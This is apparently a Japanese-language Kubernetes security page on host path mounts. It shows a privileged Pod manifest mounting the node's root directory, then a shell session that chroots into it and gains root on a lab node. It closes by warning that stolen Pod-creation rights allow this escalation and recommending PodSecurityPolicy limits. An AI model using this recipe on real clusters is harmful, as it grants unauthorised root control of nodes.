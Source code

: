 # ホストパスのマウント

Pod からホストのパスをボリュームとしてマウントすることが可能です。例えば次のような Pod を作成すると `/host` 配下に Pod が配置された node のルートディレクトリをマウントできます。

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: noderootpod
  labels:
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: noderootpod
    image: busybox
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "tail", "-f", "/dev/null" ]
  volumes:
  - name: noderoot
    hostPath:
      path: /
```

```shell
$ kubectl exec -it noderootpod sh
kubectl exec [POD] [COMMAND] is DEPRECATED and will be removed in a future version. Use kubectl exec [POD] -- [COMMAND] instead.
/ # cd /host
/host # chroot .
root@lab-k8s-node-01:/#
root@lab-k8s-node-01:/# id
uid=0(root) gid=0(root) groups=0(root),10(uucp)
```

Pod の作成権限があるアカウント権限を攻撃者に奪われた場合に、権限昇格を行う方法としてこの手法が利用されることが考えられます。そのため、権限昇格を防ぐという目的で PodSecurityPolicy 等でマウント可能なディレクトリを明示的に定義すると良いでしょう。
